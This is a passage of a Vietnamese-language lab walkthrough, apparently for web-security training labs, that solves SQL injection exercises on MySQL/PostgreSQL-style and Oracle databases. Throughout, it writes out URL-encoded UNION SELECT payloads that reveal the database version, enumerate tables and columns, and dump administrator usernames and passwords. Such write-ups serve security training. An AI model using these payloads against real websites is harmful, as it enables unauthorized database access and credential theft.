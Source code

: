 Thay URL thành `/filter?category=Gifts%27%20UNION%20SELECT%20NULL,@@version%23`, ta thu được thông tin version của database.

![image](https://user-images.githubusercontent.com/103978452/201872385-d99883a4-4dbd-4edf-b54c-e9579ecec1ec.png)

# 9. SQL injection attack, listing the database contents on non-Oracle databases
Chức năng search theo category của website có lỗi SQLi. Khi thay URL thành `/filter?category=Lifestyle%27%20UNION%20SELECT%20%27a%27,%27a%27--` thì kết quả trả về không có lỗi. Như vậy câu query trả về 2 column và cả hai đều có kiểu dữ liệu string.

Để lấy tên table chứa thông tin login, ta thay URL thành `/filter?category=Lifestyle%27%20UNION%20SELECT%20table_type,table_name%20FROM%20information_schema.tables--`. Tìm kiếm trong các kết quả trả về, ta thấy có một table có tên là "users_vtwdxr" có thể là table chứa thông tin đăng nhập mà ta cần tìm:

![image](https://user-images.githubusercontent.com/103978452/201873823-b304e25c-3057-41c4-ad40-919f88a54137.png)

Để lấy các trường có trong table đó, ta thay URL thành `/filter?category=Lifestyle%27%20UNION%20SELECT%20column_name,data_type%20FROM%20information_schema.columns%20where%20table_name=%27users_vtwdxr%27--`. Trong các kết quả trả về ta thấy hai trường đáng chú ý là "username_jfwaxj" và "password_wvyxlu".

![image](https://user-images.githubusercontent.com/103978452/201874596-aac50c94-7456-49a9-8896-cddb5f4a5440.png)

Liệt kê các giá trị của hai trường này trong table "users_vtwdxr" bằng cách thay URL thành `/filter?category=Lifestyle%27%20UNION%20SELECT%20username_jfwaxj,password_wvyxlu%20FROM%20users_vtwdxr--`. Username và password của administrator đã xuất hiện:

![image](https://user-images.githubusercontent.com/103978452/201874561-2bf063bf-ce79-4d7e-b596-d363a5cc8365.png)

Sử dụng thông tin đã có để đăng nhập, thu được kết quả thành công.

# 10. SQL injection attack, listing the database contents on Oracle
Chức năng search theo category của website có lỗi SQLi, database sử dụng là Oracle. Khi ta thay URL thành `/filter?category=Lifestyle%27%20UNION%20SELECT%20%27a%27,%27a%27%20FROM%20dual--` thì kết quả thành công. Như vậy câu query trả về 2 columns và cả hai đều có kiểu dữ liệu string.

Để xem danh sách các tables, ta thay URL thành `/filter?category=Lifestyle%27%20UNION%20SELECT%20table_name,NULL%20FROM%20all_tables--`. Trong số kết quả có được, có table "USERS_HJWWRD" có khả năng là table chứa thông tin đăng nhập của users.

![image](https://user-images.githubusercontent.com/103978452/201877077-2d994530-6a2f-4869-a719-2a04b239a683.png)

Để xem danh sách các trường trong table "USERS_HJWWRD", ta thay URL thành `/filter?category=Lifestyle%27%20UNION%20SELECT%20column_name,data_type%20FROM%20all_tab_columns%20where%20table_name=%27USERS_HJWWRD%27--`. Ta chú ý đến hai trường "USERNAME_SAMKHP" và "PASSWORD_TOTGCL".

![image](https://user-images.githubusercontent.com/103978452/201877349-69289e28-854a-4449-b6c8-57c8430bff08.png)
